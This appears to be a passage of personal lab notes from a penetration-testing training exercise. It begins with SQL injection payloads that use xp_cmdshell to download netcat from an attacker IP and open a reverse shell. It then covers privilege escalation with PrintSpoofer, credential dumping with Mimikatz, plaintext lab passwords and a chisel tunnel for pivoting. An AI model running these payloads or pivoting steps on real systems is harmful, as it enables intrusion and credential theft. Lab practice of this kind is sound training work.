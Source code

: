 	# Download nc onto the target machine
	';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.236:80/nc.exe c:/windows/temp/nc64.exe";--
	
	# Run reverse shell
	';EXEC xp_cmdshell "c:/windows/temp/nc64.exe -e cmd.exe 192.168.45.236 4444";--
	```
## Initial Access
- Reverse shell in as NT SERVICE\MSSQL$SQLEXPRESS
- Found users in C:\Users
	- Administrator
	- administrator.MEDTECH
	- joe
	- offsec
- Upload winPEASx64.exe and run
	- ???
- Found password string in C:\inetpub\wwwroot\web.config
	- password=WhileChirpTuesday218

## Privilege Escalation
- NT SERVICE\MSSQL$SQLEXPRESS has SeImpersonatePrivilege, use PrintSpoofer
	- `.\PrintSpoofer.exe -i -c powershell.exe`
	- Escalated to NT AUTHORITY\SYSTEM
## Flag
- Proof.txt found in Administrator Desktop
	![[Pasted image 20250209161731.png]]
- Look at the IPConfig, internal server? (surprise surprise you can literally see it from the list of VMs)
## Post-Exploitation
- Upload and run Mimikatz
	- Found credentials
	- joe:Flowers1
## Pivoting
- Setup tunnel with chisel v1.7.1
```shell
# Download both linux and win binaries to Kali
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz

# Unzip and rename both
kali@kali:~$ gunzip chisel_1.7.7_linux_amd64 && mv chisel_1.7.7_linux_amd64 chisel 
kali@kali:~$ gunzip chisel_1.7.7_windows_amd64 && mv chisel_1.7.7_windows_amd64 chisel.exe

# Add executable in Kali and run
kali@kali:~$ chmod a+x chisel
kali@kali:~$ ./chisel server --port 8081 --socks5 --reverse
# Remember to edit /etc/proxychains4.conf!

# Transfer and run chisel client in WEB02
C:\TEMP> .\chisel.exe client --max-retry-count 1 192.168.45.236:8081 R:socks
```

